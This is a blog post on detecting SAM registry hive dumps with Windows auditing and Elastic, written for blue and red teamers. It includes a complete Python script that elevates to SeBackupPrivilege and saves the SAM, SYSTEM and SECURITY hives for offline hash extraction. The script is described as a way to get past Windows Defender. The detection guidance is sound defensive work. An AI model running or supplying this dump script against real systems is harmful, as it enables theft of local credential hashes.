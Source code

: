 ```yaml
---
title:  "Detecting SAM registry hive dumps using Elastic!"
header:
  teaser: "/assets/images/samhashdetect.png"
categories:
  - Threat Hunting
tags:
  - elk
  - hashdump
  - thumbdrive
  - SAM
  - SECURITY
  - SYSTEM
  - registry hive
  - elastic
  - kibana
  - logstash
  - filebeats
  - threat hunting
  - blue team
  - winlogbeat
  - sysmon
  - elevationstation
---
```


You guys know what time it is? IT'S GO TIME! Time to dive in and learn how to detect a red teamer trying to grab your local SAM hashes from the registry.  

**Detecting SAM Hashdump attempts - The Setup**
-

First, open up `gpedit.msc`

Next, navigate to this section and enable the highlighted subcategories.  You really only need to enable like two of these, but this is to prepare you for the next writeup where we will be detecting thumbdrives as they are plugged in to any USB port!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5e6048d6-5e1b-4c28-95ea-01cf8b405b60)

Okay now for the tedious part...we need to enable auditing for all three keys: **SAM**, **SECURITY**, AND **SYSTEM**

We will start with setting up auditing for the SAM registry hive file:

Open `regedit.exe`

right click on `SAM`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/e8fdd743-fae6-4e2d-b97e-a9b9efb71a40)

Choose `"Permissions"`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c84f925-60d1-4761-98a6-22c5eb76b105)

Choose `"Advanced"`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/17fdbc6d-6275-42d7-986d-d4b8d5705789)

Okay, for this next part you want to create a new Security Principal.  We want that new principal to be "Everyone" since we want to audit all accounts that try to access this registry key.  Once that principal is created, it will look like this:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/0b2d7016-6f3f-4cd4-9a19-064830c8b69a)

Also make sure you choose `"This key only"`

Almost there.  Next, double click on the newly created `"Everyone"` Principal.  Then, choose `"Show advanced permissions"` in the upper right hand corner.

That will need to look like this:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f2d09f32-1daf-488a-ad28-9a74a72e0c98)

PHEW!  glad that's over with....or is it?!?!  Well sort of.  We still have to do what we just did with the SAM registry file to the SECURITY and SYSTEM. But I don't feel like creating images and typing all this out again, so here's what we're going to do.  I'm going to list what you need to do below for the SECURITY AND SYSTEM keys for your auditing config needs.  Let's go!

**SECURITY**

- `Everyone`
  - `This key only`

**SECURITY/Cache**

- `Everyone`
  - `This key and subkeys`
 
**SECURITY/Policy/Secrets**

- `Everyone`
  - `This key and subkeys`
 
**SYSTEM**

- `Everyone`
  - `This key only`

Okay, you can choose to dump the SAM, SECURITY, and SYSTEM files manually via regedit.exe (You'll likely get snagged by Windows Defender AV).  Or....you could do the tactical way.  Let's go the tactical route.  We're going to use python to write our registry dump script:

Download the raw python script here: [dumpy.py](https://github.com/g3tsyst3m/undertheradar/blob/main/dumpy.py)

Or, simply copy pasta from here:

```python
import win32security
import win32api
import win32con
import win32process
import os
import sys
import winreg
import ntsecuritycon as ntc
import pywintypes


def ElevatedorNot():
    thehandle=win32security.OpenProcessToken(win32api.GetCurrentProcess(), win32con.TOKEN_QUERY)
    elevated = win32security.GetTokenInformation(thehandle, win32security.TokenElevation)
    #print("is token elevated?", elevated)
    if elevated == 1:
        print("[+] elevated status: TokenIsElevated!!!")
        return True
    else:
        print("[!] token is not elevated...")
        return False

def SetBackupPrivilege():
    try:
        thehandle=win32security.OpenProcessToken(win32api.GetCurrentProcess(), win32con.TOKEN_ADJUST_PRIVILEGES | win32con.TOKEN_QUERY)
        id = win32security.LookupPrivilegeValue(None, "SeBackupPrivilege")
        newPrivileges = [(id, win32security.SE_PRIVILEGE_ENABLED)]
        win32security.AdjustTokenPrivileges(thehandle, False, newPrivileges)
        print("[+] successfully gained SeBackupPrivilege!!!!")
        return True
    except:
        print("[!] couldn't get seDebugPrivilege...")
        return False

def dumpreg():
    #Sam File
    samhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SAM", 0, win32con.KEY_ALL_ACCESS)
    win32api.RegSaveKey(samhandle, "c:\\users\\public\\sam.save", None)
    win32api.RegCloseKey(samhandle)
    
    #System File
    systemhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SYSTEM", 0, win32con.KEY_ALL_ACCESS)
    win32api.RegSaveKey(systemhandle, "c:\\users\\public\\system.save", None)
    win32api.RegCloseKey(systemhandle)
    
    
    #Security File (we dont have permissions to get this by default...but it's really only useful for domain creds and I just want local admin)
    try:
        securityhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SECURITY", 0, win32con.KEY_ALL_ACCESS)
        win32api.RegSaveKey(securityhandle, "c:\\users\\public\\security.save", None)
        win32api.RegCloseKey(securityhandle)
    except:
        print("you don't have permission to grab the SECURITY file...")
    return True
if not ElevatedorNot():
    print("[!] not elevated...\n")
    exit()
if not SetBackupPrivilege():
    print("[!] could not get seBackupPrivilege...\n")
    exit()
if dumpreg():
    print("[+] Successfully dumped SAM, SYSTEM, and SECURITY files!!!\n")
    exit()
else:
    print("[!] couldn't dump registry...\n")
f.close()
```

Save it, and run it:  

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8ca9d23e-d9ed-4fbf-815c-c849b7c05d3b)

If everything was setup correctly, you should see the following in windows event logs:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f04ab046-20c6-433d-9cea-8a25d0c2d73c)

And last but certainly not least, in Elastic!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/56d79889-9d65-44cd-b92b-a64501f2945d)

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8381222b-e061-42c0-b98a-8292b25baa96)

Hope this helps my fellow red team and blue teamers out there. It's knowledge you need regardless of which role you're in. 😸 Blue team for obvious reasons.  Red team, to see the possibilities built-in to Windows for detecting your clever tricks.  Until next time, adios!
